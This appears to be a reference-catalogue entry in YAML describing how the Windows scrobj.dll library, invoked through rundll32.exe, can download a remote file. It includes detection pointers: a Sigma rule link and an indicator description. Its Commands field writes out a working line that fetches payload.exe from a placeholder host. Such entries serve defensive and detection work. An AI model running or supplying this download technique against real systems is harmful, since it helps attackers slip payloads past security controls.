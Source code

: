 ```yaml
---
Name: Scrobj.dll
Description: Windows Script Component Runtime
Author: Eral4m
Created: 2021-01-07
Commands:
  - Command: rundll32.exe C:\Windows\System32\scrobj.dll,GenerateTypeLib http://x.x.x.x/payload.exe
    Description: Once executed, rundll32.exe will download the file at the URL in the command to %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE\<random>\payload[1].exe.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: c:\windows\system32\scrobj.dll
  - Path: c:\windows\syswow64\scrobj.dll
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
  - IOC: Execution of rundll32.exe with 'GenerateTypeLib' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479106975967240209
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```

